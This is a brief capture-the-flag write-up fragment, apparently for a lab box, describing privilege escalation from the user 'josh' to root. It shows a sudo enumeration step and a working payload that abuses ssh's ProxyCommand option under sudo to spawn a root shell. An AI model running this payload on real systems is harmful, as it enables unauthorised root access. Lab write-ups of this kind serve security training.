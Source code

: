 
as josh we get user.txt

## enumeration
`sudo -l` we find it can run ssh as root so 

## payload
```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

and we get root
